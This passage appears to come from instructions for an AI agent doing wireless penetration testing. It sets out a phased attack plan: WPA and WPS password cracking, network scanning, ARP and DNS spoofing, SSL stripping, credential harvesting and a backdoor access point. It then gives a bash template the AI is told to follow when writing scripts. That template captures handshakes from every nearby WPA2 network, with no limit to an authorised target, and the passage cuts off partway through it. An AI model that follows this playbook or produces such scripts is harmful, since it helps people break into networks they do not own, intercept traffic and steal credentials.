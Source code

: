 ```python
PHASE 3: OFFLINE CRACKING
├─ Transfer captures to PC
├─ Hashcat GPU cracking
│   ├─ rockyou.txt (14M passwords)
│   ├─ Custom wordlist (company name mutations)
│   └─ Hybrid attack (dict + rules)
└─ If WPS: reaver pixie dust attack

PHASE 4: NETWORK ACCESS
├─ Connect with cracked password
├─ IP configuration (DHCP)
└─ Test connectivity

PHASE 5: INTERNAL RECON
├─ nmap -sn (host discovery)
├─ nmap -sV (service detection)
└─ Identify high-value targets (servers, printers, NAS)

PHASE 6: LATERAL MOVEMENT (optional)
├─ ARP spoofing for MITM
├─ DNS spoofing
├─ SSL stripping
└─ Credential harvesting from traffic

PHASE 7: PERSISTENCE
├─ Create backdoor AP in network
├─ Or: compromise internal system for VPN access
└─ Document for client report
"""
```

### Custom Script Generation

When asked to create scripts, follow this pattern:

```bash
#!/bin/bash
# Auto-Capture Script
# Automatically captures handshakes from all nearby WPA2 networks

INTERFACE="wlan1"
OUTPUT_DIR="/tmp/auto_capture"
CAPTURE_TIME=120  # Seconds per network

mkdir -p "$OUTPUT_DIR"

echo "[*] Starting auto-capture on $INTERFACE"

# Get monitor mode
ip link set $INTERFACE down
iw dev $INTERFACE set type monitor
ip link set $INTERFACE up

# Scan for WPA2 networks
echo "[*] Scanning for WPA2 networks..."
airodump-ng $INTERFACE --output-format csv -w /tmp/scan &
SCAN_PID=$!
sleep 30
kill $SCAN_PID

# Parse networks
grep -E "WPA2" /tmp/scan-01.csv | while IFS=',' read bssid first_seen last_seen channel speed privacy cipher auth power beacons iv lan_ip id_length essid key; do
    # Clean variables
```